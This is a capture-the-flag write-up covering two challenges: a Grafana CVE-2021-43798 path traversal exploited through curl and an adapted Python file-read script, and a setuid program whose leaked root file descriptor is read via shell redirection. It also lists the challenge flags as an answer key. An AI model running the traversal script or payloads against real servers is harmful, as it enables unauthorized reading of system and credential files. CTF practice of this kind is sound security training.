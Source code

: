 # Operation-Shadow-Trace
**FLAGS:**

Grafana blog:
```
PClub{Easy LFI}
PClub{4lw4ys_cl05e_y0ur_fil3s}
PClub{y0u_ar3_in_7he_sudoers_th1s_1nc1d3nt_will_n0t_be_rep0r7ed}
```

Kalpit Rama blog:
```
flag1:PClub{idk_how_this_got_typed}
```
## Grafana Blog
### Initial challenge:
**FLAG:** ```PClub{Easy LFI}```  
 
When reading the grafana blog, opened the link to the grafana login dashboard. We didn't have the login id and password.  
 
When searched for grafana and its vulnerability found about the ```Grafana 8.3.0 - Directory Traversal and Arbitrary File Read, CVE:2021-43798```.  
There existed vulnerability that local files can be directly transversed.  

The detail of the exploit is found in this link: 
https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p  

Used this on terminal and found the flag in return, and the next IP and port of next two challenges.
```
curl http://13.126.50.182:3000/public/plugins/tempo/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag 
```
Returned data: 
```
PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
```

Also I saw a direct transversal code when going through google, link:  
https://www.exploit-db.com/exploits/50581  
To cross check all the other plugins, I ran it with necessary changes and got the same output on other plugins too.
```
#!/usr/bin/env python3
import requests
import random
import urllib3
urllib3.disable_warnings()
PLUGIN_LIST = [ "alertlist", "annolist", "barchart", "bargauge", "candlestick", "cloudwatch", "dashlist", "elasticsearch", "gauge", "geomap", "gettingstarted", "grafana-azure-monitor-datasource", "graph", "heatmap", "histogram", "influxdb", "jaeger", "logs", "loki", "mssql", "mysql", "news", "nodeGraph", "opentsdb", "piechart", "pluginlist", "postgres", "prometheus", "stackdriver", "stat", "state-timeline", "status-history", "table", "table-old", "tempo", "testdata", "text", "timeseries", "welcome", "zipkin" ]
TARGET = "http://13.126.50.182:3000"
SESSION = requests.Session()
HEADERS = { 'User-Agent': 'Mozilla/5.0' }
# Encoded traversal (12 levels deep)
TRAVERSAL = "%2E%2E%2F" * 12 # = ../../../../... (12 times)
def attempt_read(filepath):
   plugin = random.choice(PLUGIN_LIST)
   filepath_encoded =filepath.replace("/", "%2F")
   url = f"{TARGET}/public/plugins/{plugin}/{TRAVERSAL}{filepath_encoded}"
    print(f"🔎 Trying: {url}")
    try:
        res = SESSION.get(url, headers=HEADERS, verify=False, timeout=5)
        if res.status_code == 200 and "PClub{" in res.text:
            print(f"\n✅ FLAG FOUND at: {url}")
            print(res.text)
        elif res.status_code == 200:
            print(f"[+] File accessible — plugin '{plugin}' responded:")
            print(res.text[:300] + ("..." if len(res.text) > 300 else ""))
        elif "Found" in res.text and "/login" in res.text:
            print("🚫 Redirected to login. File may exist, but access is blocked.")
        else:
            print("[-] File not found or not readable.")
    except requests.exceptions.RequestException as e:         print(f"[!] Error accessing {url}: {e}")
def main():
    print("🎯 Grafana CVE-2021-43798 Exploit Tool — Operation Shadow Trace")
    print(f"🌐 Targeting: {TARGET}")
    print("📂 Enter paths like /tmp/flag.txt, /etc/passwd, /proc/self/environ\n")
    try:
        while True:
            filepath = input("📥 File to read: ").strip()
            if not filepath.startswith("/"):
                filepath = "/" + filepath
            attempt_read(filepath)
    except KeyboardInterrupt:
        print("\n👋 Exiting...")
if __name__ == "__main__":
    main()

... 
🎯 Grafana CVE-2021-43798 Exploit Tool — Operation Shadow Trace 🌐
Targeting: http://13.126.50.182:3000 📂
Enter paths like /tmp/flag.txt, /etc/passwd, /proc/self/environ
📥 File to read: /tmp/flag
🔎Trying: http://13.126.50.182:3000/public/plugins/opentsdb/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/opentsdb/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
🔎 Trying: http://13.126.50.182:3000/public/plugins/piechart/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/piechart/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
📥 File to read: /tmp/flag
🔎 Trying: http://13.126.50.182:3000/public/plugins/mysql/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/mysql/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
```

### Challenge 2

*challenge* - 13.235.21.137:4657  

**FLAG**:```PClub{4lw4ys_cl05e_y0ur_fil3s}``` 

Connected to terminal using:
```nc 13.235.21.137 4657```

ls Gives: 
```
$ ls 
file_chal file_chal.c
``` 

Used cat to see the c script
```
$ cat file_chal.c

#include <fcntl.h>
#include <unistd.h>
int main () {
    int fd = open ("/root/flag", 0);
// Dropping root previliges
// definitely not forgetting anything
    setuid (getuid ());
    char* args[] = { "sh", 0 };
    execvp ("/bin/sh", args);
    return 0; }
``` 

We see that the code opens the flag before dropping the root privilage. The file is opened but not closed. So the file descriptor pointing to ```/root/flag``` is still valid.

Then to see the file descriptors used:
``` 
ls -l /proc/$$/fd

total 0 lrwx------ 1 ctf ctf 64 May 23 09:35 0 -> /dev/pts/24
lrwx------ 1 ctf ctf 64 May 23 09:35 1 -> /dev/pts/24
lrwx------ 1 ctf ctf 64 May 23 09:35 2 -> /dev/pts/24
lr-x------ 1 ctf ctf 64 May 23 09:35 3 -> /root/flag
```
Then tried to cat fd 3:
```
$ $ cat /proc/$$/fd/3
cat: /proc/2285/fd/3: Permission denied
```
We can't cat it directly. 
But we are already in the same process that opened fd3, so tried shell redirection: Which gives us the flag.
```
$ read line <&3
echo "$line"
$ PClub{4lw4ys_cl05e_y0ur_fil3s}
```
